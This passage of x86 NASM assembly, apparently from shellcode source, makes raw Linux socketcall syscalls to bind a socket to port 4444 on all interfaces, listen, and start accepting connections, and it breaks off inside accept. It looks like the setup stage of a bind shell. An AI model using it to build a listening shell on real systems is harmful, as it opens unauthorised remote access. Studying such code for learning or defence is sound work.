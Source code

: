 ```nasm




    ; bind 
    ; int socketcall(int call, unsigned long *args);
    ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ;    struct sockaddr_in {
    ;        short            sin_family;   // word
    ;        unsigned short   sin_port;     // word
    ;        struct in_addr   sin_addr;     // dword (ulong)
    ;    };
    ;
    ; int socketcall(2, [socketfd, [2, 4444, 0]], 16)

bind:
    xor eax, eax
    push eax                    ; sin_addr = INADDR_ANY = 0
    push word 0x5c11            ; sin_port = 4444
    push word 2                 ; sin_family = PF_INET = 2
    mov ecx, esp                ; struct sockaddr *addr = [2, 4444, 0]
    push 16                     ; addrlen = 16
    push ecx                    ; struct sockaddr *addr
    push esi                    ; sockfd
    mov ecx, esp                ; args = [socketfd, [2, 4444, 0]]
    mov bl, 2                   ; call = sys_bind = 2
    mov al, 102                 ; socketcall
    int 0x80




    ; listen
    ; int socketcall(int call, unsigned long *args);
    ; int listen(int sockfd, int backlog);
    ;
    ; int socketcall(4, [socketfd, 4098])

listen:
    push word 4098              ; backlog = 4098
    push esi                    ; sockfd
    mov ecx, esp                ; args = [socketfd, 4098]
    mov bl, 4                   ; call = sys_listen = 4
    mov al, 102                 ; socketcall
    int 0x80




    ; accept
    ; int socketcall(int call, unsigned long *args);
    ; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
    ;    struct sockaddr_in {
    ;        short            sin_family;   // word
    ;        unsigned short   sin_port;     // word
    ;        struct in_addr   sin_addr;     // dword (ulong)
    ;    };
    ;
    ; int socketcall(5, [socketfd, NULL, NULL])

accept:
    xor eax, eax
    push eax                    ; addrlen = NULL
```
